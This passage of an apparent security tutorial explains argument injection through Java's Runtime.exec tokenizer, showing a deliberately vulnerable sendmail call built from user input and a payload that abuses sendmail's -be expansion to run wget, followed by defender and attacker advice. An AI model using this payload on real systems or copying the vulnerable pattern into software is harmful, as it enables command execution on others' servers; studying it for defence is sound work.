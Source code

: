 ```java
            .environment(envp)
            .directory(dir)
            .start();
    }

```

So Runtime.java is really close to ProcessBuilder.java (since it is calling it in last instance), but doing "something else". Tokenizing a String input into a String[], taking in account spaces to separate arguments of a process call.

Taking account the spaces in a userInput String, without control, is equal to an Argument Injection.


```java

  }else if( ("Argument Injection".equals(submit)) ){
  
            //We are invoking an process without calling a sh/bash/cmd interpreter. But Still, thanks to Runtime.java
            //tokenizer, we are able to inject extra arguments to target process.
            String cmd = "/usr/sbin/sendmail -f" + emailFrom;
            Runtime.getRuntime().exec(cmd);
            
```

By providing something like this Payload in the "emailFrom" input we can inject code without problems:


```bash
ss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
```
We can check the logs of a running local server to see the correct execution of "wget".

## Conclusions

As a **Defender** let's try to use ProcessBuilder to perform system calls. If we need to use for some reason sh/bash/cmd, we should escape correctly the input to avoid injections. Something like escapeshellcmd/escapeshellarg in PHP.

As an **Attacker**, we should look to the different functions/features of target application to spot the obvious use of these system calls, and try different payloads. Response errors with particular codes like 500 after using special crafted inputs could help us to spot these functions. From a targeted point of view, understand the technology ahead and possible vulnerable 3PP software could be the opportunity to exploit target app.


## References

Special thanks to [Pierre Ernst](https://twitter.com/e_rnst) for his help



